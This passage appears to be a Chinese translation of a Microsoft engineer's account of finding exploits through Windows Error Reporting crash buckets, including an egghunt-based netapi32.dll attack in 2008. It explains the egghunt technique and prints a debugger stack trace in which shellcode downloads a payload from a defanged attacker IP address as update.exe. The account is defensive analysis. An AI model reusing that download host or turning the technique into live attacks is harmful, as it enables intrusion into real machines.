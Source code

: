 工程师们根据根本原因将它们以崩溃存储桶（bucket）形式进行分组并逐步排列优先级列表。我们首先修复影响最多客户的错误，记住这一点，下次出现Windows错误报告对话框时，你正在为自己提交的错误“投票”。

MS07-029的崩溃存储桶（bucket）非常有启示性。下图显示，在问题公开后（2007年4月初），Windows DNS的崩溃数量显著增加。一旦问题公开，安全研究人员和攻击者都会争相重新发现漏洞，并从概念验证转向实际利用。Windows DNS的崩溃存储桶（bucket）突然变得非常活跃。每个想法都有它的灵感时刻，对我来说，看到这个图表的意义：在我们得知这次攻击之前，每隔几天就会出现一次崩溃--这是WER宇宙中的一个小小的闪烁，我查看了每一个崩溃，并发现它们都是利用程序。

![](https://mmbiz.qpic.cn/mmbiz_png/aff8CeTWGibBEiaf63uM6Cmm5ialFFw1q1eiaOPK1484uWvKT94XsVlknibqXPDdQ3pVsgbgV0sfhZR9pCicIp4ekzVA/640?wx_fmt=png)

如果我们能够确定崩溃何时是漏洞利用，我们就可以在攻击生命周期的早期做出反应，更早地保护客户。要找到0day漏洞，你不会在每天生成数千次点击，充满大嘈杂的崩溃存储桶（bucket）中找到它们，你需要关注小数据的长尾。为了使安全崩溃“响亮”，我进入了位翻转、一击中招、不可重现的竞态条件和0day漏洞的光怪陆离世界。

**在长尾中生存**

到2008年9月，我们已经建立了一个能够对数百万次崩溃进行安全漏洞筛选的系统。在这个过程中，我感觉自己加入了全世界最小的行业--攻击失效工程师的行业。

9月25日，一个崩溃事件引起了我的注意--netapi32.dll中的一个漏洞。这本身并不罕见。在MS06-040中，我们修复了netapi32!NetpwPathCanonicalize 中的缓冲区溢出漏洞。每天会有来自僵尸网络的数百万次崩溃崩溃进来，企图利用这个漏洞（因为/GS的原因而失败）来感染易受攻击的PC。这个新的崩溃事件出现在非常相似的代码中，但在不同的WER桶（bucket）中。它既不是前100个问题中的问题，也不是前1000个问题中的问题。它是第45000个问题，历史上只出现过2次。**这是在长尾上生存的典型数据。**

![](https://mmbiz.qpic.cn/mmbiz_png/aff8CeTWGibBEiaf63uM6Cmm5ialFFw1q1eoRE5SVPOBaPk6wSibnu7vpzIYeEOjdt1IRfSQVnAnvYZrR6XUjW5JMQ/640?wx_fmt=png)

**深入 !pwnd指令**

是什么让这个微小的崩溃存储桶脱颖而出?

首先，这里有一个漏洞利用程序，我们编写了一个自定义调试器扩展，调试信息色彩缤纷地显示!pwnd（Windows调试器扩展通过在其前面加上“!”符号调用），它在崩溃转储中发现了shellcode。我查看了shellcode，发现它使用了egghunt来寻找有效负载。

egghunt是一种漏洞利用工程技术，用于当缓冲区溢出在发送多少有效负载方面受限制时。解决方案是将攻击分为两个部分，在第一部分中，你以良性的方式与目标进行交互，发送包含真实有效负载前缀为唯一字节序列（“egg”）的数据，但不触发漏洞。如果你能以正确的方式做到这一点，你的有效负载将保留在某个地方的内存中。然后你触发漏洞，受限制的shellcode在内存中搜索egg并跳转到它，这是netapi32.dll的第一个使用egghunt的漏洞利用程序。这引起了人们的关注。

![](https://mmbiz.qpic.cn/mmbiz_png/aff8CeTWGibBEiaf63uM6Cmm5ialFFw1q1eFXCxl8gJxLxb9vWcib2nNA5TI5eHMZmZAcBlH8xQEHAwBSIol9Mg5NQ/640?wx_fmt=png)

崩溃转储的第二个非寻常之处不仅是它崩溃的方式，而是在崩溃之前它的成功方式。我关注了进程中的其他线程，除了崩溃线程之外。其中一个线程揭示了攻击者已经利用了该进程，shellcode正处于使用URLDownloadToFileA下载有效负载的过程中！

```
0:066> kPn99 # ChildEBP RetAddr 00 0150f048 7c90e9ab ntdll!KiFastSystemCallRet(void) 01 0150f04c 7c8094e2 ntdll!ZwWaitForMultipleObjects(void)+0xc ...08 0150f2b4 7813b13a urlmon!CUrlMon::StartBinding(    int fBindToObject = 0,    struct IBindCtx * pbc = 0x00185540,    struct IMoniker * pmkToLeft = 0x00000000,    struct _GUID * riid = 0x7813b394 {0000000c-0000-0000-c000-000000000046},    void ** ppvObj = 0x0150f2fc)+0x169 09 0150f2d8 7815bcd2 urlmon!CUrlMon::BindToStorage(     struct IBindCtx * pbc = 0x00185540,     struct IMoniker * pmkToLeft = 0x00000000,     struct _GUID * riid = 0x7813b394 {0000000c-0000-0000-c000-000000000046},     void ** ppvObj = 0x0150f2fc)+0x49 0a 0150f31c 781b73d2 urlmon!CBaseBSCB::KickOffDownload(     wchar_t * szURL = 0x0150f400 "hxxp://59.106.145.58/n2.exe")+0x193 0b 0150f330 781b7847 urlmon!CFileDownload::KickOffDownload(     wchar_t * szURL = 0x0150f400 "hxxp://59.106.145.58/n2.exe")+0x2d 0c 0150f348 781b7a4a urlmon!URLDownloadToFileW(     struct IUnknown * caller = 0x00000000,     wchar_t * szURL = 0x0150f400 "hxxp://59.106.145.58/n2.exe",     wchar_t * szFileName = 0x0150f380 "update.exe",     unsigned long dwReserved = 0,     struct IBindStatusCallback * callback = 0x00000000)+0x51 0d 0150f480 0150f5b8 urlmon!URLDownloadToFileA(     struct IUnknown * caller = 0x00000000,     char * szURL = 0x0150f6a1 "hxxp://59.106.145.58/n2.exe",     char * szFileName = 0x0150f6d1 "update.exe",     unsigned long dwReserved = 0,     struct IBindStatusCallback * callback = 0x00000000)+0x109
```
